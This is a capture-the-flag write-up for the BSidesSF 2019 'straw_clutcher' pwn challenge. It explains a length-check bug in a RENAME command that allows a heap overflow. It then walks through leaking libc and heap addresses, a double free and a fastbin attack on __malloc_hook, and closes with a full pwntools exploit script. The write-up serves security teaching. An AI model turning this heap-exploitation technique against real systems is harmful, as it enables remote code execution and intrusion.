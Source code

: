 # BSidesSF 2019 CTF

## straw_clutcher

## Information

**Category** | **Points** | **Solves** | **Writeup Author**
--- | --- | --- | ---
PWN | 400 | 4 | [merrychap](https://github.com/merrychap)

**Description:** 

> Location - straw-clutcher-717c5694.challenges.bsidessf.net:4321

**Files:**

[straw-clutcher](./straw-clutcher)

## General information

The binary was really crazy for pwn challenge :D

There are a lot of code, but if you spend enough time on it, then it wouldn't be a problem to find the bug. But first things first.

## Reversing the binary

<p align="center">
  <img src="screens/beginning.png">
</p>

So, there is a global buffer for user input which is allocated on a heap. After we input data, it's compared in some obfuscated way with characters. I will not cover reverse part here, because it's not very complicated and you can do it by your own. Most of the code here is different input validations, so this is not very interesting

The binary is kinda file transfer server and there are several actions we can produce (all "files" are memory structures and not the "real" files):

- `PUT [FILENAME] [FILE SIZE]` - creates a file with the specified filename and size. After this, we read data into the created file.

- `RENAME [OLD FILENAME] [NEW FILENAME]` - rename a file

- `DELE [FILENAME]` - delete specified file. It also frees the data that were allocated for this file

- `RETR [FILNAME]` - print file's data

- `TRUNC [FILENAME] [NEW SIZE]` - truncates the size of a specified file.

Okay, you can play now with the server to understand the functionality more deeply.

By the way, files are basically linked-list and each file has a pointer to the previous file structure. Hence, when it iterates through the files, it starts with the last one and goes up to the first.

## Vulnerability

After looking around the code searching the vuln I found some interesting place in `RENAME` function:

<p align="center">
  <img src="screens/vuln.png">
</p>

First of all, we check `old_name` length and force it can't be longer than `0x1f`. And then the same for `new_name`, but... We check `old_name` again instead of `new_name` length. That's the vuln - __heap overflow__.

Now, let's explore the file structure (I suppose everything should be clear):

```c
struct file_t {
    char filename[0x20];
    unsigned long file_size;
    char *data;
    long dummy; /* it's not used as I understood */
    struct file_t *prev_file;
};
```

So, by overflowing filename we can overwrite `file_size` and `data` pointer. 


## Leaking addresses

First of all, we want to leak some addresses, so let's start with `file_size`. By writing some big number into `file_size` and then calling `RETR` we can leak everything on the heap below the current chunk. Libc address can be leaked by creating unsorted bin chunk below the target chunk and heap addresses can be leaked by just creating some new file below the target. Cool, we have `libc` and `heap` addresses.

## Spawning the shell

I forgot to say that there are some constraints on the filename, namely, `[A-Za-z0-9]+.[A-Za-z0-9]{3}` or something like this.

My main target was overwriting `__malloc_hook` with `one_gadget`, so we need to achieve fastbin attack. To do this, double free will be the best choice. When we delete a file something like this happens:

```c
free(file->data);
free(file);
```

So we can try to create a fake chunk `fake_file` where `fake_file->data` will point to some freed chunk with `0x70` size. Hence, it's double free and fastbin attack can be performed.

Let's consider some `file` structure. To create a fake chunk we can overwrite lsb of `file->prev_file` to point to `file->data` which we control without any constraints. To do this, we need that lsb of `file->data` will satisfy constraints on a filename.

If everything is okay, then we can produce typical fastbin attack with overwriting `__malloc_hook`.

## Exploit

The final exploit is as follows (I added some comments to make it more readable):

```python
from pwn import *


def main():
    libc = ELF('./libc-2.23.so')
    pc = remote('straw-clutcher-717c5694.challenges.bsidessf.net', 4321)

    pc.sendline('PUT AAA.EXE 10')
    pc.send('A' * 10)

    pc.sendline('RENAME AAA.EXE BBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBB.EAA')
    pc.sendline('PUT CCC.EXE 128')
    pc.send('C' * 128)
    pc.sendline('PUT DDD.EXE 10')
    pc.send('D' * 10)

    pc.sendline('DELE CCC.EXE')

    # overwriting file->file_size with 0x4141
    pc.sendline('RETR BBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBB.EAA')
    pc.recvuntil('200 File download started. Prepare to get 16705 bytes')
    data = pc.recvuntil('Data transferred!')
    good_slice = data[100:209]
    
    libc_base = u64(good_slice[-24:-16]) - 0x3c4b78
    __malloc_hook = libc_base + libc.symbols['__malloc_hook']
    __free_hook = libc_base + libc.symbols['__free_hook']
    heap = u64(good_slice[-48:-40])

    log.success('libc base @ ' + hex(libc_base))
    log.success('heap @ ' + hex(heap))
    log.success('__free_hook @ ' + hex(__free_hook))
    log.success('__malloc_hook @ ' + hex(__malloc_hook))

    #################################################
    #################################################

    # creating a fake file structure chunk
    pc.sendline('PUT EEE.EXE {}'.format(0x48))
    pc.send(p64(0x4848482e484848) + p64(0) * 4 + p64(0x68) + \
        p64(heap + 0x250) + p64(0) + p64(heap + 0x190)) # -0x23

    
    # make two freed 0x70 chunks
    pc.sendline('PUT TTT.TTT {}'.format(0x68))
    pc.send('T' * 0x68)
    pc.sendline('PUT KKK.KKK {}'.format(0x68))
    pc.send('K' * 0x68)
    pc.sendline('DELE TTT.TTT')
    pc.sendline('DELE KKK.KKK')

    # overwrite lsb of file->prev_file
    pc.sendline('RENAME EEE.EXE ' + 'E' * 7*8 + 'EEEEE.EXP')
    
    # and clear already freed 0x70 chunk
    pc.sendline('DELE HHH.HHH')

    pc.sendline('PUT LLL.LLL {}'.format(0x68))
    pc.send(p64(__malloc_hook - 0x13) + 'K' * 0x60)
    pc.sendline('PUT MMM.MMM {}'.format(0x68))
    pc.send('M' * 0x68)
    pc.sendline('PUT NNN.NNN {}'.format(0x68))
    pc.send('N' * 0x68)

    one_gadget = 0x4526a

    # allocate file->data above of __malloc_hook
    # and write one_gadget into this
    pc.sendline('PUT OOO.OOO {}'.format(0x68))
    pc.send('AAA' + p64(libc_base + one_gadget) + 'O' * (0x60-3))

    # trigger malloc
    pc.sendline('PUT JJJ.JJJ 8')

    pc.interactive()


if __name__ == '__main__':
    main()
```

After running this exploit we've got:

<p align="center">
  <img src="screens/final_shell.png">
</p>

> Flag: CTF{hoisting_the_flag}

Flag is not really interesting, but the challenge was pretty good!